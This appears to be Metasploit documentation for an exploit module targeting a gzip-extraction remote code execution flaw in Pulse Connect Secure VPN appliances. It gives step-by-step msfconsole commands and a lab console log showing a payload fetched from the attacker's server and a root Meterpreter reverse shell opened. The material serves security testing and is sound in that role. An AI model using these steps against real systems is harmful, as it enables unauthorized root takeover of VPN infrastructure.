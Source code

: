 ## Vulnerable Application

The Pulse Connect Secure appliance before 9.1R9 suffers from an uncontrolled gzip extraction vulnerability which allows an authenticated attacker
to overwrite arbitrary files, resulting in Remote Code Execution as root. Admin credentials are required for successful exploitation.

NCC Group [wrote](https://research.nccgroup.com/2020/10/26/technical-advisory-pulse-connect-secure-rce-via-uncontrolled-gzip-extraction-cve-2020-8260/)
in their findings a few different ways to achieve RCE through the gzip vulnerability. This exploit utilizes the Template Toolkit method
which works up to 9.1R8 (possibly more), whereas the other methods were patched earlier.  With this method, since the payload is sent in the perl
template, there are also no bad characters.

Of note, MANY binaries are not in `$PATH`, but are located in `/home/bin/`.  Thanks to @wvu for pointing that out.

Pulse Secure Connect trial can be downloaded [here](https://www.pulsesecure.net/trynow/pulse-connect-secure/).

## Verification Steps

1. Install the server
1. Start msfconsole
1. Do: `use exploit/linux/http/pulse_secure_gzip_rce`
1. Do: `set rhosts [IP]`
1. Do: `set username [username]`
1. Do: `set password [password]`
1. Do: `run`
1. You should get a root shell

## Options

### cmd

If this option is set, a single command will be run instead of the payload. Defaults to `` (empty)

## Scenarios

### Pulse Connect Secure 9.1R8 build 7453, Meterpreter Payload

```
msf6 > use exploit/linux/http/pulse_secure_gzip_rce 
[*] Using configured payload linux/x64/meterpreter_reverse_tcp
msf6 exploit(linux/http/pulse_secure_gzip_rce) > set RHOSTS 192.168.159.100
RHOSTS => 192.168.159.100
msf6 exploit(linux/http/pulse_secure_gzip_rce) > set USERNAME admin
USERNAME => admin
msf6 exploit(linux/http/pulse_secure_gzip_rce) > set PASSWORD Password1!
PASSWORD => Password1!
msf6 exploit(linux/http/pulse_secure_gzip_rce) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf6 exploit(linux/http/pulse_secure_gzip_rce) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Version 9.1, revision 8, build 7453 found
[+] The target appears to be vulnerable.
[*] Using URL: http://0.0.0.0:8080/m6x4OtFXogsSCK
[*] Local IP: http://192.168.250.87:8080/m6x4OtFXogsSCK
[*] Exploit trigger will be at /dana-na/auth/setcookie.cgi with a header of XLQOBGKB
[*] Requesting backup config page
[*] Uploading encrypted config backup
[*] Triggering RCE
[*] Client 192.168.159.100 (curl/7.19.7 (i686-redhat-linux-gnu) libcurl/7.63.0 OpenSSL/1.0.2n zlib/1.2.3) requested /m6x4OtFXogsSCK
[*] Sending payload to 192.168.159.100 (curl/7.19.7 (i686-redhat-linux-gnu) libcurl/7.63.0 OpenSSL/1.0.2n zlib/1.2.3)
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.100:57548) at 2020-12-07 10:52:54 -0500
[*] Command Stager progress - 100.00% done (122/122 bytes)
[*] Logging out to prevent warnings to other admins
[*] Server stopped.

meterpreter > getuid
Server username: root @ localhost2 (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : 192.168.159.100
OS           :  (Linux 2.6.32-00025-g841d072-dirty)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```
